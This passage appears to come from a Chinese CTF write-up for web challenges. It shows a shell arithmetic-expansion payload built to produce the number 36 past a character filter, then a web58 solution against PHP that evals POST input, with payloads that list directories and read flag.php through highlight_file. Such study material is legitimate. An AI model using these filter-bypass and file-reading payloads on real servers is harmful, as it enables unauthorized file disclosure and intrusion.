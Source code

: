 于是， $(( ~$((  )) )) 在括号内部放入 37个 $(( ~$(()) )) 即-1，默认相加等于 -37 ，再取反得到36



payload:

```php
?c=
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

太牛了这思路





### web58

```php
<?php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```

首先我们需要获取flag所在路径：

```php
c=print_r(scandir(dirname(__FILE__)));
c=print_r(scandir(current(localeconv())));

c=$a=opendir('.');while(($file=readdir($a))!=false){echo $file.'<br/>';}
```

#### opendir()

> opendir() 函数打开目录句柄。

#### readdirr()

> readdir() 函数返回目录中下一个文件的文件名。





方法一:

```php
//通过高亮文件去读取文件内容
c=highlight_file('flag.php');
c=highlight_file('flag.php');
```
